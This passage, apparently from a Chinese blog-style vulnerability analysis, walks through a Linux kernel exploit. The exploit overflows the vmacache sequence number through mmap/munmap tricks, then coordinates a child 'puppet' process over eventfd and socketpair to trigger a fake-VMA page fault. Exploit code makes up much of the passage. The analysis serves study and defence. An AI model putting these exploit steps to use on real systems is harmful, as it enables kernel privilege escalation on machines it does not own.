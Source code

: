 这两个函数分别用于将mm_struct-&gt;vmacache_seqnum的值分别增加2和1。具体的原理是 首先在main函数中创建一个三个页的匿名映射。之后通过带有MAP_FIXED的mmap去申请第一页或者中间页的映射。如果是中间页，则会munmap开头和结尾两页，造成seqnum的两次递增。之后再进行合并。同理，开头一页的话则会造成一次递增。

```
static void sequence_target(long target) `{`
    while (sequence_mirror + 2 &lt;= target)
        sequence_double_inc();
    if (sequence_mirror + 1 &lt;= target)
        sequence_inc();
`}`
```

这个函数用于将sequence_mirror递增到指定值。

再来说说利用代码里面的进程之间通信的机制：

```
int control_event_fd = eventfd(0, EFD_SEMAPHORE);
if (control_event_fd == -1) err(1, "eventfd");
if (socketpair(AF_UNIX, SOCK_DGRAM, 0, control_fd_pair))
    err(1, "socketpair");
pid_t child = fork();
if (child == -1) err(1, "fork");
if (child == 0) `{`
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    close(kmsg_fd);
    close(control_fd_pair[0]);
    if (dup2(control_fd_pair[1], 0) != 0) err(1, "dup2");
    close(control_fd_pair[1]);
    if (dup2(control_event_fd, 1) != 1) err(1, "dup2");
    execl("./puppet", "puppet", NULL);
    err(1, "execute puppet");
`}`
close(control_fd_pair[1]);

int bpf_map = recvfd(control_fd_pair[0]);
```

分别创建了eventfd和socketpair。并切将其重新定向为0和1。前者用于将子进程阻塞，在主进程中实现了将fake vma伪造完后发送信号让子进程继续去触发缺页异常，从而实现对控制流控制。后者定义了双向的套接字，用于将我们申请的bpf_map传回。bpf_map会在后文进行分析。

现在我们具体分析漏洞利用流程

在main函数中，我们在实现一系列初始化之后创建子进程，并在其中

```
execl("./puppet", "puppet", NULL);
```

在puppet中，我们首先申请一个三页的mmap匿名映射，用于增加mm—&gt;vmacache_seqnum。

之后在不创建线程的前提下先将mm的seqnum更新为0x100000000L – VMA_SPAM_COUNT/2

```
sequence_cheat_bump(0xffff0000L);
sequence_target(0x100000000L - VMA_SPAM_COUNT/2);
```
